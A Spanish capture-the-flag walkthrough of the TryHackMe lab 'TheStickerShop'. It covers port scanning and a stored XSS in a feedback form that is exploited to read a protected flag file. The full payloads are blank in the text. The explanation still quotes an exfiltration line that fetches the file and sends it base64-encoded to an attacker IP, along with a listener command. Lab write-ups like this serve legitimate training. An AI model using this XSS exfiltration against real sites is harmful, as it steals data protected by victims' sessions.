## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?



Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**



## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:



Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:



## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.



Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.



Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.



En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`



Luego, en el formulario de `Feedback`, enviamos el siguiente payload: ``. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.



Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.



## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS

~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.



Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.



Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  



Una vez decodificado el texto, nos devuelve la flag. Completado el objetivo hemos finalizado la máquina y por ende hemos terminado.